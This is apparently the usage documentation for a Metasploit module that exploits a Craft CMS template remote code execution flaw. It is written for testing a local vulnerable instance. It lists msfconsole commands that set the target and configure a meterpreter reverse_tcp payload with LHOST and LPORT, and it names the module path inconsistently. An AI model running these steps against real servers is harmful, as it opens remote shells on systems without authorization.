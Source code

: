 
## Verification Steps

1. Start the vulnerable Craft CMS instance using the steps above.
2. Launch `msfconsole`.
3. Use the module: `use exploit/multi/http/craftcms_twig_rce`.
4. Set `RHOSTS` to the target Craft CMS instance.
5. Configure additional options (`TARGETURI`, `SSL`, etc.) as needed.
6. Execute the exploit with the `run` command.
7. If successful, the module will execute the payload on the target.

---

## Options
No option

## Scenarios

#### Successful Exploitation Against Craft CMS 5.5.0

**Setup**:

- Local Craft CMS instance with a vulnerable version (e.g., `5.5.0`).
- Metasploit Framework.

**Steps**:

To successfully exploit the Craft CMS vulnerability using this Metasploit module, follow these steps:

1. Start `msfconsole`:
```bash
msfconsole
```

2. Load the module:
```bash
use exploit/linux/http/craftcms_ftp_template
```

3. Set the `RHOSTS` option to the target Craft CMS instance, for example:
```bash
set RHOSTS exploit-craft.ddev.site
```

4. Configure other necessary options such as `TARGETURI`, `SSL`, and `RPORT` if required. By default:
   - `RPORT` is set to `80`.
   - `TARGETURI` is set to `/`.

5. Set the payload for exploitation. For example:
```bash
set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
```

6. Set the local listener address and port:
```bash
set LHOST 192.168.1.36
set LPORT 4444
```
